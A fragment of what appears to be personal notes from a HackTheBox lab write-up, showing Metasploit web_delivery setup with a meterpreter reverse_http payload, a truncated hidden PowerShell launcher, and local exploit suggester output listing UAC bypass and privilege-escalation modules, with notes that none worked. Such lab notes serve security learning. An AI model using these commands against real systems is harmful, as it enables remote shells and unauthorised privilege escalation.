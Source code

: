 ```bash
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
setg lhost tun0
run
```

```bash
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAU...RAAnACkAKQA7AA==
```

Local Exploit Suggester

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

```bash
[*] Running check method for exploit 43 / 43
[*] 10.10.121.174 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

> None Of the exploit succeed


#### Windows Exploit Suggester NG

> Tried But failed on this box

[[HackTheBox Writeup - Devel#Additional#Privilege Escalation Using WESNG]]